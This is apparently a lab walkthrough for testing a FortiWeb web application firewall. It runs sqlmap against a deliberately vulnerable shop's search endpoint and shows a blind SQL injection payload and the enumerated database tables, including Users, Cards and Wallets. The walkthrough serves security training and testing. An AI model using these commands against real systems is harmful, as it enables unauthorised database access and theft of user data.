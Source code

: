 1. Input the command in the terminal, substituting **FortiWeb Public IP**

    ```bash
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --dbms=SQLite --technique=B --level 3 --batch
    ```

    ```plaintext
    ...[SNIP]...
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: q (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: q=') AND 1976=1976 AND ('zuWc' LIKE 'zuWc
    ---
    ...[SNIP]...
    ```

1. Increase the number of threads to complete the requests faster by adding the **--threads 10**

    ```bash
    sqlmap -u "http://FortiWeb Public IP:3000/rest/products/search?q=" --technique=B --tables --threads 10
    ```

    ```plaintext
    <current>
    [20 tables]
    +-------------------+
    | Addresses         |
    | BasketItems       |
    | Baskets           |
    | Captchas          |
    | Cards             |
    | Challenges        |
    | Complaints        |
    | Deliveries        |
    | Feedbacks         |
    | ImageCaptchas     |
    | Memories          |
    | PrivacyRequests   |
    | Products          |
    | Quantities        |
    | Recycles          |
    | SecurityAnswers   |
    | SecurityQuestions |
    | Users             |
    | Wallets           |
    | sqlite_sequence   |
    +-------------------+